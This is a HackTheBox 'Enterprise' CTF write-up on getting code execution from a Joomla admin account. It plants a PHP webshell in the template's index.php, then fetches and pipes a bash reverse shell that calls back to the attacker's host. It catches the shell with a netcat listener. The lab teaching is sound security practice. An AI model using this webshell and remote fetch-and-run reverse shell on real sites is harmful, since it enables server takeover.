




- CTF of this post: **Enterprise** on *HackTheBox*.

- This post is the fourth part of the list **"Abusing CMS"**.

I'm going to explain how to gain RCE from inside a **Joomla** as admin.
If you want to enumerate a Joomla you can use **Joomscan**, a tool developed by **OWASP**

The way to execute commands it's really similar to the technique in Wordpress, however once you are logged in as admin or privileges you may be seeing something like this:



Now go to **"Extensions"** --> **"Templates"** --> **"Templates"**

Click on the active template of the server, in my case it's called "Protostar", and you should see the files of the webpage.
To execute commands edit the index.php and in the php code add a simple webshell throught the *cmd* parameter.

```php
system($_REQUEST['cmd']);
```

And click on **"Save"**


At this point, if you go to the index.php or to the edited php file you can add *"?cmd=whoami"* for checking the RCE.

Now you just have to send a reverse shell to get an interactive session on the victim machine.
I will be using the same reverse shell from Wordpress, create an index.html with the content of a reverse shell:

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.6/443 0>&1
```
Start a http server:
```sh
python3 -m http.server 80
```

And now if you make a request (with curl) in the webshell to your http server and add a pipe and *'bash'*.
It executes the content of your index with bash, so it sends a reverse shell to your netcat listener.


So before you make the request:

```sh
nc -nlvp 443
```


And if all works good you should receive a interactive session.



And thats's all
